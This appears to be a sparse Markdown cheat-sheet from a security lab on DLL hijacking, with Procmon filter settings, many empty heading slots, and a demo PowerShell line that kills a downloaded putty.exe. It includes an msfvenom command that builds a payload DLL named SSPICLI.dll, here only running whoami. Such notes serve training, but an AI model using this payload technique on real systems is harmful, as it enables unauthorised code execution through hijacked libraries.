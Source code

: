 ## Procmon
### Filter
    Process Name contains #Value
    Path contains #value
    Result is #value
____________________________________________________________________________________________________________________
## Showcase
### Fake Payload
    msfvenom -p windows/exec CMD='cmd.exe /C "whoami" > c:\ssers\student\Desktop\whoami.txt' -f dll > SSPICLI.dll
____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## For the DEMO!!!
### To kill the putty.exe we downloaded and launched.
    (get-process | ?{$_.name -like "putty"}).kill()
____________________________________________________________________________________________________________________
